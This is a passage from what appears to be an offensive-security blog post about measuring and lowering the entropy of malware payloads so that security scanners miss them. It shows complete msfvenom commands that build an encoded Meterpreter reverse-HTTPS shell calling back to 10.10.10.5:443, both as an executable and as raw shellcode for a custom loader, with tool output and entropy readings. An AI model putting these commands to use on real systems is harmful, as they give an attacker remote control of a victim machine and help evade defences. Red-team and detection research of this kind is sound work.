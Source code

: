 I made a simple program that makes it easier to check the entropy without all of the additional details. You can download the code from [here](https://github.com/lum8rjack/shannon).

```bash
$ ./shannon -file /bin/bash
6.159560931054298
```

## Basic Payload
Next, I wanted to check the entropy of different malware samples and see if there was a way I could get it as low as possible. The simplest and quickest method was to generate a stageless Metasploit executable using the command below.

```bash
$ msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.10.5 LPORT=443 -e x86/shikata_ga_nai -f exe -o msf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 201849 (iteration=0)
x86/shikata_ga_nai chosen with final size 201849
Payload size: 201849 bytes
Final size of exe file: 208384 bytes
Saved as: msf.exe
```

The entropy is almost at the highest possible number, and would definately be flagged by security scanners.

```bash
$ ./shannon -file msf.exe
7.924424214044725
```

I then decided to use Metasploit to generate shellcode instead of an executable. In doing this, I could then create my own loader that would inject and execute the shellcode.

```bash
$ msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.10.5 LPORT=443 -e x86/shikata_ga_nai -f raw -o payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 201849 (iteration=0)
x86/shikata_ga_nai chosen with final size 201849
Payload size: 201849 bytes
Saved as: payload.bin
```

The shellcode entropy was even higher than the executable.

```bash
$ ./shannon -file payload.bin 
7.986056713327999
```
